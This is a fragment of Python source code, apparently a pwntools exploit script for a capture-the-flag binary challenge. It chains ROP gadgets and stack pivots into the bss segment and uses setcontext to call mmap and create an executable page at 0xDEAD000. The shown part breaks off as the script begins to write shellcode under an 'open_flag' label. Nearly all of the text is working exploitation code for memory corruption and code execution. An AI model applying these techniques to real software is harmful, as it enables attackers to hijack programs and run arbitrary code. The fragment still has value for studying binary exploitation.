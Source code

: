 ```python
        pivot(bss_start + 0x430)
        + gets(bss_start + 0x70)
        + p64(0xDEADAAAA)
        + pivot(bss_start + 0x68)
    )

    rax = 0x9
    rdi = 0xDEAD000
    rsi = 0x22
    rdx = (bss_start + 0xC48) - 0x28
    rcx = 0
    r8 = 0
    r9 = 0

    sleep(0.2)
    io.sendline(
        p64(rax)
        + p64(rdx)
        + p64(mov_r10_rcx_call_mmap)
        + p64(pop_rbp)
        + p64(bss_start + 0x158 + 0x3D)
        + p64(add_gadget)
        + pivot(bss_start + 0x468)
    )  # craft mmap address also control rdx

    success("DONE CREATING ALL GADGETS")
    warning("setup all registers and call mmap")
    warning("calling gets on all pop addresses for pivoting later")

    sleep(0.2)
    io.sendline(
        gets(0xDEAD000) + p64(0xDEAD000)
    )  # write rop below mmap64 address to the call gets on rwx page and jump to shellcode

    sleep(0.2)
    io.sendline(
        p64(rax) + p64(rdx) + p64(0x1234) + pivot(setcontext)
    )  # pivot to setcontext

    sleep(0.2)
    io.sendline(
        setup_regs_setcontext(
            DI=0xDEAD000,
            SI=0x1A,
            DX=0x7,
            CX=0x22,
            R8=0xFFFFFFFF,
            R9=0x0,
            BP=0x12345678,
            SP=mmap64,
            R12=0,
        )
    )  # pivot to set r10 and call mmap

    success("0xdead000 rxwp page created...")
    warning("Write shellcode")

    shellcode = """
    global _start:

    section .text

  open_flag:
```